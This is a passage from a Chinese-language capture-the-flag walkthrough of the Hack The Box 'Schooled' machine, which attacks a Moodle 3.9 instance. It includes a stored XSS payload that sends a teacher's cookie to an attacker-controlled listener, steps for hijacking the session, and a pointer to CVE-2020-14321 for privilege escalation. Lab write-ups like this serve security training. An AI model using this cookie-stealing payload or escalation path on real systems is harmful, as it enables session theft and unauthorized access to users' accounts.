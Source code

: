 发现moodle.schooled.htb，也添加到hosts，之后访问

![image-20210429154854989](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429154854989.png)

注册用户

![image-20210429155329352](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429155329352.png)

之后continue验证就可以了

![image-20210429155349222](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429155349222.png)



加入课程后在announcements里面发现如下信息，老师会check moodlenet profiles

![image-20210429160500504](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429160500504.png)

可以在该处插入xss打cookie

```
<img src=x onerror=this.src='http://ip:7777/?'+document.cookie;>
```

![image-20210429160941864](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429160941864.png)

之后开端口监听

```
python -m SimpleHTTPServer 7777
```

![image-20210429161314267](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429161314267.png)

之后更改cookie值，用户变为老师

![image-20210429161435964](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429161435964.png)

在点击下图该处时，跳转到https://docs.moodle.org/39/en/Course_homepage页面。

由此知版本为3.9

![image-20210429161639800](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429161639800.png)



搜索到对应的漏洞 CVE-2020-14321

(Moodle是一套免费、开源的电子学习软件平台，也称课程管理系统、学习管理系统或虚拟学习环境。 Moodle中存在权限许可和访问控制问题漏洞，该漏洞源于程序在课程注册中没有进行正确的安全限制。远程攻击者可利用该漏洞提升权限。)

首先当前账户提升至管理权限

在10.10.10.234:80页面曾找到过manager信息

![image-20210429162059712](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429162059712.png)

这个视频链接介绍了如何将账号提至管理员

https://www.youtube.com/watch?v=BkEInFI4oIU
